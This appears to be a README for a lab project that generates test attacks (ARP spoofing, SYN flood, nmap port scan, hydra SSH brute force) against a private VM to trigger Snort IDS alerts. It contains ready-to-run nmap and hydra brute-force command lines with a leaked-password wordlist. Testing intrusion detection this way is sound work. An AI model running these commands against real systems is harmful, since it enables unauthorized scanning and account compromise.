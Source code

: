 # src
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **Arp-Spoofer**: 


 - **Python-SYN-Flood-Attack-Tool**: Tool to be used for the Syn Flood Attack. I have issues to set the correct interface at scapy to send the packets to the VM so I could not test it. 
  
- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```